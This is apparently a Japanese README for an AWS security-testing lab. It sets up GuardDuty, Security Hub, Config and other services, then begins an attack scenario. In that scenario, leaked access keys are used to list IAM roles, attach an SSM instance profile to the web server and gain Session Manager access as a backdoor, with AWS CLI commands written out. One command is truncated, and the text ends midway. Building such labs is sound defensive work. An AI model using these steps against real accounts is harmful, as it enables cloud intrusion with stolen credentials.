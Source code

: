 ```sh:
../../../scripts/apply.ps1
```

**IAMの権限削除**
- 本来であれば、IAMインスタンスプロファイルを作成するために一時的に付与したIAMポリシーを削除する
- セキュリティテスト用に残したままにしておく


## 3. セキュリティサービス群を構築

**AWS Organizationsと信頼関係を構築**
- Organizaionsと連携するサービス群に対して```信頼されたアクセス```を有効化する必要がある
  - Organization → サービス → 有効化したいサービスを選択
- 対象サービス
  - IAM Access Analyzer
  - GuardDuty
  - Config
  - Security Hub
  - Detective

**CloudFormationテンプレートからスタック作成**

```sh:
popd
cd SecurityTest/security_services

# 必要なファイル群をS3にアップロード
.\scripts\Upload_RequiredFiles.ps1 <dst-backet-name> <profile-name>

# メインスタックをデプロイ
.\scripts\exec_cfn_cli.ps1 .\templates\main.yaml <stack-name> <profile-name>  
```


-------------------------------------------------------

# 攻撃シナリオ

## アクセスキーの流出

**1. Webサーバへの侵入 (内部から)**
- 2つのバックドアを作る
- 1. 事前準備
  - アクセスキー, ロールARNを取得 (ロールARNも流出 or IAMポリシーのミスListRole)
  - IAMロール一覧を取得し、SessionManager用のロールがないか検索
  - EC2(Webサーバ)にIAMインスタンスプロファイルをアタッチ (Session Manager用)
  - Session Managerを起動 (秘密鍵なしでインスタンスにアクセス可能)

```sh:
# IAMロール一覧を取得
aws iam list-roles --profile switch
# SSM用のインスタンスプロファイルARNを取得
ssm_instance_profile_arn=$(aws iam list-instance-profiles --profile switch | grep -o '"arn.*instance-profile/.*ssm"' | sed -e 's/"//g'
# インスタンスプロファイル名のみを抽出
ip_name=$(echo $ssm_instance_profile_arn | grep -o '/.*' |  -e 's/\///g')

# EC2リストを取得
aws ec2 describe-instances --profile switch >> tmp.txt
# Webサーバに該当するインスタンスを検索し、instance-idを取得する
instance_id=$(grep -C 120 Web tmp.txt | head -n 30 | grep -o '"i-.*"' | sed 's/"//g')

# EC2にインスタンスプロファイルが既にアタッチされている場合はデタッチ
association_id=$(aws ec2 --profile switch describe-iam-instance-profile-associations --filters Name=instance-id,Values=$instance_id | grep -o '"iip-.*"' | sed 's/"//g')
```